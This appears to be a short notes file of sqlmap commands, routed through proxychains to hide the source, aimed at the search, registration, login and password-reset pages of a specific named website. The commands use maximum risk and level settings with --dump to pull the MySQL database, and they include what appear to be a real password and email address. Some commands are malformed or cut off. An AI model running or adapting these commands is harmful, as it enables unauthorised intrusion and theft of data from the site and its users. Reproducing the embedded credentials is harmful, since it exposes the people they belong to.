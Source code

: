 ## SQL MAP ##

# The search page #
proxychains sqlmap -u "https://daedalus-systems.tech-sourcery.co.uk/index.php?route=product/search&search=knob"

# The register new user page #
proxychains sqlmap -u "https://daedalus-systems.tech-sourcery.co.uk/index.php?route-account/register" --data "-----------------------------312160266724025450251944745644\nContent-Disposition: form-data; name=\"password\"\n\npassword\n-----------------------------312160266724025450251944745644\nContent-Disposition: form-data; name=\"confirm\"\n\npassword\n-----------------------------312160266724025450251944745644--\n\n-----------------------------418959402723251904713225479109\nContent-Disposition: form-data; name=\"agree\"\n\n1\n-----------------------------418959402723251904713225479109--\n" --risk 3 --level 5 --dbms mysql --dump

# The user login page #
proxychains sqlmap -u "https://daedalus-systems.tech-sourcery.co.uk/index.php?route-account/login" -data "-----------------------------10225344102476555895450749570\nContent-Disposition: form-data; name=\"email\"\n\nAidan\n-----------------------------10225344102476555895450749570\nContent-Disposition: form-data; name=\"password\"\n\nJy4PHubZ9zLpJxm\n-----------------------------10225344102476555895450749570--"\n

# The forgot my password page#
 proxychains sqlmap -u "https://daedalus-systems.tech-sourcery.co.uk/index.php?route=account/forgotten" -data "-----------------------------231960497037379637281406524027\nContent-Disposition: form-data; name="email"\n\nredyelruc1@hotmail.com\n--------------------------

